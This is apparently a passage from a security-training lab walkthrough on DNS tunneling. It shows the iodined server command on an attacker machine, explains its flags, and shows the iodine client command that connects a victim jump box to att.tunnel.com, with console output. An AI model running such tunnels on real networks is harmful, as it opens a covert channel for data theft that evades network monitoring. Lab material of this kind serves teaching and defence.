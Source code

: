 Let's follow the steps to create a DNS tunnel. First, let's run the server-side application (iodined) as follows,

Running iodined Server  

```markup
thm@attacker$ sudo iodined -f -c -P thmpass 10.1.1.1/24 att.tunnel.com                                                                                                                                                                     
Opened dns0
Setting IP of dns0 to 10.1.1.1
Setting MTU of dns0 to 1130
Opened IPv4 UDP socket
Listening to dns for domain att.tunnel.com
```

Let's explain the previous command a bit more:

- Ensure to execute the command with sudo. The iodined creates a new network interface (dns0) for the tunneling over the DNS.
- The -f argument is to run the server in the foreground.
- The -c argument is to skip checking the client IP address and port for each DNS request.
- The -P argument is to set a password for authentication.
-  The 10.1.1.1/24 argument is to set the network IP for the new network interface (dns0). The IP address of the server will be 10.1.1.1 and the client 10.1.1.2.
- att.tunnel.com is the nameserver we previously set.

On the JumpBox machine, we need to connect to the server-side application. To do so, we need to execute the following:

Victim Connects to the Server  

```markup
thm@jump-box:~$ sudo iodine -P thmpass att.tunnel.com                                                                                                           
Opened dns0                                                                                                                                                     
Opened IPv4 UDP socket                                                                                                                                          
Sending DNS queries for att.tunnel.com to 127.0.0.11                                                                                                            
Autodetecting DNS query type (use -T to override).                                                                                                              
Using DNS type NULL queries                                                                                                                                     
Version ok, both using protocol v 0x00000502. You are user #0                                                                                                   
Setting IP of dns0 to 10.1.1.2                                                                                                                                  
Setting MTU of dns0 to 1130                                                                                                                                     
Server tunnel IP is 10.1.1.1                                                                                                                                    
Testing raw UDP data to the server (skip with -r)                                                                                                               
Server is at 172.20.0.200, trying raw login: OK                                                                                                                 
Sending raw traffic directly to 172.20.0.200                                                                                                                    
Connection setup complete, transmitting data.
```
